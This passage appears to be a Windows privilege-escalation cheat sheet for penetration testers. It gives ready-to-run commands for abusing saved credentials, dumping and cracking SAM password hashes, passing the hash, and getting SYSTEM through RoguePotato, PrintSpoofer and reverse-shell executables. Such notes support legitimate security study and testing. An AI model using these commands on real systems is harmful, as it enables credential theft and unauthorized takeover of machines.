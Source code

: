 #### Saved Creds

> Windows has a runas command which allows users to run commands with the privileges of other users. This usually requires the knowledge of the other user’s password. However, Windows also allows users to save their credentials to the system, and these saved credentials can be used to bypass this requirement.

```powershell
cmdkey /list
```

```powershell
runas /savecred /user:<user_name> shell.exe
```

#### Security Account Manager (SAM)

> “Windows stores password hashes in the Security Account Manager (SAM). The hashes are encrypted with a key which can be found in a file named SYSTEM. If you have the ability to read the SAM and SYSTEM files, you can extract the hashes.”

```
The SAM and SYSTEM files:  `C:\\Windows\System32\config `
Backups of the files may exist: `C:\\Windows\\Repair` or `C:\\Windows\\System32\\config\\RegBack `
Extract the hash using ‘[CredDump](https://github.com/Neohapsis/creddump7.git)’
Use hashcat to crack hash
```

```powershell
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

#### Passing the Hash

> Windows accepts hashes instead of passwords to authenticate to a number of services. We can use a modified version of winexe, pth-winexe to spawn a command prompt using the admin user’s hash

```powershell
pth-winexe -U '<NTLM hash>' //<IP> cmd.exe
```

### Token Impersonation

#### Rogue Potato

> If the machine is >= Windows 10 1809 & Windows Server 2019 — Try Rogue Potato If the machine is < Windows 10 1809 < Windows Server 2019 — Try Juicy Potato

Get reverse shell of local service

```powershell
PsExec64.exe -i -u "nt authority\local service" C:\Cas\shell.exe
```

_“If you have SeAssignPrimaryToken or SeImpersonateprivilege, you are SYSTEM”_

```powershell
.\RoguePotato.exe -r <remote-host> -e "C:\Cas\shell.exe" -l 443
```

#### PrintSpoofer

```powershell
PrintSpoofer.exe -c shell.exe -i
```

### Automated Enumeration

* _windows-privesc-check_
* _winPEASany\_ofs.exe_
